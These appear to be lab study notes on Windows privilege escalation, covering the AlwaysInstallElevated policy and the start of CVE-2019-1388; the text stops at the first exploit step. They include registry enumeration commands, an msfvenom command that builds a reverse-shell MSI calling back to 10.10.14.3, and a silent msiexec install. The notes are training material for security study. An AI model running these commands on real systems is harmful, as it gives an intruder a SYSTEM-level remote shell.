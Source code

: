 ***

## **Always Install Elevated**

Always install with system privilege

### **Enumerating Always Install Elevated Settings**

to discover if this options is enable or not

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Our enumeration shows us that the `AlwaysInstallElevated` key exists, so the policy is indeed enabled on the target system.

### **Generating MSI Package**

We can exploit this by generating a malicious `MSI` package and execute it via the command line to obtain a reverse shell with SYSTEM privileges.

```bash
irix@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

### **Executing MSI Package**

We can upload this MSI file to our target, start a Netcat listener and execute the file from the command line like so:

```powershell
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart

```

***

## CVE-2019-1388

The issue was in the UAC mechanism, which allow user to take a system privilege

in certificate Dialog in windows if file signed with certificate has link in filed `Issued By` this link will appear as a hyperlink and when click it turn browser with system privilege

### Exploit

First right click on the `hhupd.exe` executable and select `Run as administrator` from the menu.
